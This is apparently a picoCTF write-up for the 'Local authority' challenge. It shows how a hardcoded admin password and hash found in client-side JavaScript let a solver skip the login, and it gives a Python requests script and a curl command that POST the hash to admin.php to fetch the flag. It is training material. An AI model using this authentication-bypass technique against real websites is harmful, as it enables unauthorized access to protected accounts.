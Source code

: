 # Local authority

1. [Description](#description)
2. [Script](#script)

#### Description

The web page we are presented contains a simple login form. It requires an username and a password. By inserting a simple mock-up credential, such as
```JSON
{
    "username": "test",
    "password": "test"
}
```
we are redirected to a `login.php` file which prompts the text: 
```
Log In Failed
```

Again, by accessing the **developer tools** of the Web Browser in use, it is possible to inspect the Web Page Source, i.e. the `HTML` file which is first loaded. In particular, the `login.php` files pop up and by clicking on it we are redirected to the file content source. Here, we can see that another file is loaded when the login button is clicked:
```HTML
<script src="secure.js"></script>
```

This file contains a function which checks the credential inserted on the form, in the following way:
```js
function checkPassword(username, password)
{
  if( username === 'admin' && password === 'strongPassword098765' )
  {
    return true;
  }
  else
  {
    return false;
  }
}
```
Clearly, this is not the way you check for passwords... We can access the website with the credential disclosed and retrieve the flag.

#### Script
In order to log-in to web page, we need to take a step back. In `login.php` file we can see that the values passed as `username` and `password` are used as parameters of the credential checker we can find in the `secure.js` file: 
```js
loggedIn = checkPassword(window.username, window.password);
```
If the check results in success, the following piece of code is executed: 
```js
if(loggedIn) {
    document.getElementById('msg').innerHTML = "Log In Successful";
    document.getElementById('adminFormHash').value = "2196812e91c29df34f5e217cfd639881";
    document.getElementById('hiddenAdminForm').submit();
}
```
In particular, this piece of code does nothing more than filling itself another form and submit it. The form is the following (which can be find also in the `login.php` file): 
```HTML
<form hidden action="admin.php" method="post" id="hiddenAdminForm">
    <input type="text" name="hash" required id="adminFormHash">
</form>
```

Here we can retrieve three important information: 
- the name of the input parameter we need to pass from our script (i.e. `name="hash"`)
- the method of the input form we need to call from our script (i.e. `method="post"`) 
- the actual value which is passed by the javascript function previously analyzed (i.e. `2196812e91c29df34f5e217cfd639881`).

Now the script is straightforward.
1. In **python**, we first define the useful parameters.
```python
# ------- DATA -------
URL = "http://saturn.picoctf.net:52682/admin.php"
PAYLOAD = {
    "hash": "2196812e91c29df34f5e217cfd639881"
}
```
and then we create a `Session()` object which will use the `post` method along with the `URL` and the `PAYLOAD` data previously defined to retrieve the page source where the flag is found.
```python
# ------- LOG IN -------
with requests.Session() as s:
    result = s.post(URL, data=PAYLOAD)
    print(result.text)
```
Then it is just a matter of parsing the result: 
```python
# ------- PARSING RESULT ------- 
result = result.text.split("<body>")[1]
result = result.split("</body>")[0].strip()
print(result)
```

2. In a **shell** we can exploit the `curl` tool along with the `-X` tag, specifying the `POST` method and the `--data` tag, specifying the payload:
```sh
#!/bin/bash

curl -s -X POST --data hash=2196812e91c29df34f5e217cfd639881 "http://saturn.picoctf.net:52682/admin.php" | grep -oE "picoCTF{.*?}"

# -X 		select the method
# --data	receives in input the value to be passed along with the post request
```